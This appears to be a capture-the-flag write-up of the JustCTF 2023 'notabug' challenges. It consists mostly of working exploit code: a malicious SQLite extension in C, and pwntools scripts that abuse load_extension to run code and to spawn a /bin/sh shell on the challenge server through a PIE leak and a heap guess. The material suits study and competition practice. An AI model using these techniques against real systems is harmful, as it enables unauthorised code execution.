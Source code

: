 ```yaml
---
title: "[JustCTF-2023] notabug"
date: 2023-05-31 20:56:00
tags: 
layout: default
---
```

# Prologue

r3kapig, 1st

# noabug

There is a new feature for sqlite that allows loading external libcs.

For this challenge, we can create a new lib so we can just load a external lib to execute arbitrary command.


exp.c:
```c
/* Add your header comment here */
#include <stdio.h>
#include <sqlite3ext.h> /* Do not use <sqlite3.h>! */
SQLITE_EXTENSION_INIT1

/* Insert your extension code here */

#ifdef _WIN32
__declspec(dllexport)
#endif
/* TODO: Change the entry point name so that "extension" is replaced by
** text derived from the shared library filename as follows:  Copy every
** ASCII alphabetic character from the filename after the last "/" through
** the next following ".", converting each character to lowercase, and
** discarding the first three characters if they are "lib".
*/
int sqlite3_extension_init(
  sqlite3 *db, 
  char **pzErrMsg, 
  const sqlite3_api_routines *pApi
){
  int rc = SQLITE_OK;
  SQLITE_EXTENSION_INIT2(pApi);
  /* Insert here calls to
  **     sqlite3_create_function_v2(),
  **     sqlite3_create_collation_v2(),
  **     sqlite3_create_module_v2(), and/or
  **     sqlite3_vfs_register()
  ** to register the new features that your extension adds.
  */
  return rc;
}
void exp()
{
    execve("/tmp/readflag",0,0);
}
//select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');
//select Load_extension('/jailed/readflag','_start');
//select cast("\x01\x02\x03\x04" as text) ;
```

exp.py
```py
from pwn import *
context.log_level='debug'
context.arch='amd64'
#context.terminal = ['tmux', 'splitw', '-h', '-F' '#{pane_pid}', '-P']
# p=process('./pwn')
import binascii
p = remote("0.0.0.0",13337)
ru         = lambda a:     p.readuntil(a)
r         = lambda n:        p.read(n)
sla     = lambda a,b:     p.sendlineafter(a,b)
sa         = lambda a,b:     p.sendafter(a,b)
sl        = lambda a:     p.sendline(a)
s         = lambda a:     p.send(a)
sla(b"> ",b"CREATE TABLE images(name TEXT, type TEXT, img BLOB);")
with open("./exp.so",'rb') as f:
    dt = f.read()
sla(b"> ",b"INSERT INTO images(name,type,img)")
dt = binascii.hexlify(dt)

print(dt.decode())

sla(b"> ",f"VALUES('icon','jpeg',cast(x'{dt.decode()}' as text));")
sla(b"> ",b"SELECT writefile('./exp.so',img) FROM images WHERE name='icon';")
sla(b"> ",b"select Load_extension('./exp','exp');")
p.interactive()
```

The above script works for the local one but not the remote one. My teammate found another way to compile it and make it work for the remote one.


# notabug2

We can also load libc.so.6 to execute arbitrary function but the parameters are fixed.

- Use puts to leak the PIE
- Guess the heap (1/0x2000) and build a fake structure on heap by function gets
- system /bin/sh


```py
from pwn import *

context.log_level='debug'
p = remote("notabug2.nc.jctf.pro",1337)

ru         = lambda a:     p.readuntil(a)
sla     = lambda a,b:     p.sendlineafter(a,b)

sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','puts');")
ru(": \n")
PIE = u64(p.recvn(6).ljust(8,b'\x00'))
pie_base = PIE - 0x1589a0
heap = 0x00005555556b0000-0x0000555555554000+pie_base # 1/0x2000
system_plt = pie_base + 0x10910

if pie_base > 0x600000000000:
    p.close()

warning(hex(pie_base))
sla(b"lite>",b"select Load_extension('/lib/x86_64-linux-gnu/libc.so.6','gets');")
p.sendline(p64(heap+0x11eb0)+b'a'*0x8+p64(pie_base+0x000000000009e0ad))
# raw_input()
dt = b"/bin/sh\0"+flat([0]*8)+ flat([0]*8)+ p64(system_plt)
sla(b"lite> ",f"select cast(x'{dt.hex()}' as text), ".encode()+b"Load_extension('"+p64(system_plt)[:6]+b"','/bin/sh');")
p.sendline(b"echo n132")
data = p.read(timeout=1)

if b'n132' in data:
    p.sendline("/jailed/readflag")
    p.read()
    input()
    p.interactive()
else:
    p.close()
```

# Epilogue

- Learned something about sqlite, pwning a complex binary.
- Practice some skills learned from bash-revenge
- Practice Beapoverflow